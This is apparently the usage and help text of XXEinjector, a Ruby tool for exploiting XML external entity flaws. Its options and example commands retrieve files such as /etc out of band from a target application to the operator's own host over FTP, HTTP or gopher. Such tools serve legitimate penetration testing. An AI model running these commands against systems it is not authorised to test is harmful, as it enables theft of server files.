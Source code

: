 XXEinjector by Jakub Palaczynski

XXEinjector automates retrieving files using out of band methods. Directory listing only works in Java applications. Bruteforcing method needs to be used for other applications.

Options:
  --host	Mandatory - our IP address for reverse connections. (--host=192.168.0.2)
  --path	Mandatory (or --brute) - Path to enumerate. (--path=/etc)
  --file	Mandatory - File containing HTTP request. Entity in request file needs to point to file.dtd on XXEinjector HTTP server. Issue --xml to show sample HTTP request. (--file=/tmp/req.txt)
  --brute	Mandatory (or --path) - File with paths to bruteforce. (--brute=/tmp/brute.txt)

  --oob		Out of Band exploitation method. FTP is default. FTP can be used in any application. HTTP can be used for bruteforcing and enumeration through directory listing in Java < 1.7 applications. Gopher can only be used in Java < 1.7 applications. (--oob=http/ftp/gopher)
  --phpfilter		Use PHP filter to base64 encode target file before sending.

  --ssl		Use SSL.
  --proxy	Proxy to use. (--proxy=127.0.0.1:8080)
  --httpport	Set custom HTTP port. (--httpport=80)
  --ftpport	Set custom FTP port. (--ftpport=21)
  --gopherport	Set custom gopher port. (--gopherport=70)

  --timeout	Timeout for receiving file/directory content. (--timeout=20)
  --fast	Skip asking what to enumerate. Prone to false-positives.
  --verbose	Show verbose messages.

Example usage:
  Enumerating /etc directory using HTTPS protocol with proxy:
  ruby XXEinjector-github.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --ssl --proxy=127.0.0.1:8080
  Enumerating /etc directory using HTTP protocol:
  ruby XXEinjector-github.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt
  Bruteforcing files:
  ruby XXEinjector-github.rb --host=192.168.0.2 --brute=/tmp/filenames.txt --file=/tmp/req.txt
